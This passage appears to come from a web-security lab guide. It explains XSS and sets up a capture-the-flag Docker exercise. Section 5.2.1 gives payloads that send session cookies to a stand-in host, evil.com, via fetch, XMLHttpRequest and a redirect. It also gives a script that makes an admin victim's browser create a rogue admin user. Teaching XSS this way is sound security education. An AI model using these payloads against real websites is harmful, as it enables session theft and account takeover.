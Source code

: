 {% hint style="danger" %}
**The flag has to match the correct case! So be careful how you construct your SQLi payload.**
{% endhint %}

## 5.2 XSS Attacks

XSS attacks exploit an HTML injection vulnerability that executes malicious javascript that can access a victim's cookies, session tokens or other sensitive information from a trusted source. In this lab, we will explore exploiting client-side XSS vulnerabilities.

### 5.2.1 Exploiting a Basic XSS Vulnerability

The simplest attack vector for an XSS attack is to see if `<script>alert(123)</script>` causes an alert to be displayed. If it does then the page is not filtering the `<` and `>` or `<script>`, enabling malicious javascript to be executed.

If the session cookies have the `HttpOnly` attribute to `false`, then you can read the cookie values using `document.cookie`. Below are some example XSS payloads for exfiltrating session cookie information to a remote server at `https://evil.com`.

```html
<!-- Using the fetch API (not supported on older browsers) -->
<script>fetch("https://evil.com/?nomnom="+document.cookie);</script>

<!-- Using the XMLHttpRequest API -->
<script>request = new XMLHttpRequest();request.open("GET", "https://evil.com/?nomnom="+document.cookie);request.send()</script>

<!-- Redirecting to evil.com -->
<script>window.location = "https://evil.com/?nomnom="+document.cookie</script>
```

However, if the session cookies have `HttpOnly` attribute set to `true` you can still perform actions as the victim on the vulnerable website. Below is an example XSS payload that adds a new admin user on the website for some vulnerable web applications if the victim is an admin user.

```html
<script>
    fetch("/api/users/add_admin",{
        method: 'post',
        headers: {'Content-Type':'application/json'},
        body: JSON.stringify({"username": "evil-user-mwahaha"}) 
    });
</script>
```

### 5.2.2 Basic XSS Attack Exercise

For this exercise, download [docker-compose.xss\_basic.yml](files/lab6/docker-compose-files/docker-compose.xss\_basic.yml).

{% hint style="warning" %}
The bot (xss-bot service) is used to insert the flag as the document cookie via the chrome browser driver. So you are required to use the Chrome browser for this exercise.
